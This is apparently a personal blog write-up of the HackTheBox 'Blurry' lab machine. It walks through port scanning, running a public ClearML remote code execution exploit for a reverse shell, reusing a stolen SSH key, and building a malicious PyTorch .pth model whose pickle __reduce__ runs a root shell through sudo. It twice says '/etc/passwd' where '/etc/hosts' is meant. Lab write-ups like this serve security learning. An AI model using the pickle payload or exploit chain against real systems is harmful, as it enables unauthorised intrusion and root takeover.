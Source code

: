 ```yaml
---
title: Blurry - HackTheBox Machine WriteUp
date: 2024-10-24 00:00:00 +8000
categories:
  - Writeup
  - HackTheBox
tags:
  - writeup
  - hackthebox
  - htb
  - machine
  - linux
  - medium
  - artificial-intelligence
  - python
image:
  path: /assets/img/post/hackthebox/blurry/thumbnail.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: HackTheBox Machine Blurry
---
```

This is my WriteUp for the medium difficulty Linux machine [Blurry](https://app.hackthebox.com/machines/Blurry) on [HackTheBox Labs](https://app.hackthebox.com/).

---
## Recon
My first step was to scan with `nmap` the machine for open ports:
```shell
$ nmap -p- -vvv $LAB_IP -Pn
```
Copy the scan result in a file(e.g. `nmap/ports`) and use the following command to get all ports comma separated as output:
```shell
$ cat nmap/ports | cut -f1 -d '/' | tr '\n' ','
```
Then I performed a more detailed version scan on these ports:
```shell
$ nmap -p22,80 -sC -sV -oA nmap/resourced $LAB_IP -Pn
```

There were only two open ports available:
- Port `22` - `ssh`
- Port `80` - `http` (`nginx` web server on version `1.18.0`)

After running `whatweb` we have to add `app.blurry.htb` to `/etc/passwd`.

On port `80` there is a service running called [`ClearML`](https://clear.ml/). 

After a few seconds of researching I found on [Github an PoC Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit). I cloned it to my hacking lab and installed the python requirements:
```shell
$ git clone https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit

$ cd CVE-2024-24590-ClearML-RCE-Exploit

$ pip install -r requirements.txt
```

Then we could execute the exploit: 
```shell
$ python3 exploit.py
```
First I had to select `1` to initialize ClearML and go to `http://app.blurry.htb/settings/workspace-configuration` to create new credentials:
![](assets/img/post/hackthebox/blurry/clearml_credentials.png)
Therefore we have to add `api.blurry.htb` and `files.blurry.htb` to the `/etc/passwd` file.

I created on the `app.blurry.htb` dashboard a new project called `HackMe`.

Then I pasted the credentials to the console and the setup was completed. I could return to the menu by entering `menu`.

After the configuration, I had to select `2`, then enter our local IP address and port for the reverse shell and enter the previously configured project name `HackMe`.

After that I had to wait a few seconds and we have a reverse shell and could access the user flag.

To get a permanent foothold, I copied the `.ssh/id_rsa` key and could login with `ssh`:
```shell
$ chmod 600 blurry_ssh_key

$ ssh -i blurry_ssh_key jippity@blurry.htb
```

---
## Privilege Escalation
After I got the foothold on the system, I tried to escalate the privileges.

First of all I listed all allowed commands that the user `jippity` can run with `sudo`:
```shell
$ sudo -l

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
``` 
It seems like, it can run the script `/usr/bin/evaluate_model` bash script without a password with `sudo` and the script will evaluate a `.pth` file. `.pth` files are saved `pytorch` models and if the model is loaded, `pytorch` uses `pickle` to deserialize the the pickled object.

I could exploit this, by creating a malicious `pytorch` model, which will be deserialized, to execute commands. 
I research for a short time and found a [Github Repository with a Evil Pytorch Model PoC](https://github.com/duck-sec/pytorch-evil-pth). This Proof of Concept overrides the `__reduce__` method to specify custom serialization behavior. My simplified pytorch model executes a `/bin/bash` shell. And because we will execute the evaluation of the model with `root` permissions, the shell we are creating should have `root` privileges:
```python
import torch
import os

class EvilModel(torch.nn.Module):
    def __init__(self):
        super(EvilModel, self).__init__()

    def __reduce__(self):  
        return os.system, ("/bin/bash",)

torch.save(EvilModel(), 'evil_model.pth')
```

I copied the code to the machine and executed the code:
```shell
$ python3 evil.py
```

After that,  a `evil_model.pth` file was created and I tried to load it with the `evaluate_model` script:
```shell
$ sudo /usr/bin/evaluate_model /models/evil_model.pth
```

And it worked! I got a root shell and could read the root flag from the root home directory!

---
## Exploit Chain
**Recon:**
1. Port scan with `nmap`
2. Research **ClearML** for vulnerabilities
3. Exploit the Platform and trigger a RCE to get a reverse shell

**Privilege Escalation:**
4. List users sudo capabilities with `sudo -l`
5. Read through the bash script
6. Research how `pytorch` model saving and loading works
7. Create a malicious `pytorch` model and save it to a `.pth` file
8. Load the malicious model with the bash script using `sudo` to get a root shell

---
## Resources
- [ClearML](https://clear.ml)
- [ClearML PoC Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)
- [Evil Pytorch PoC](https://github.com/duck-sec/pytorch-evil-pth)
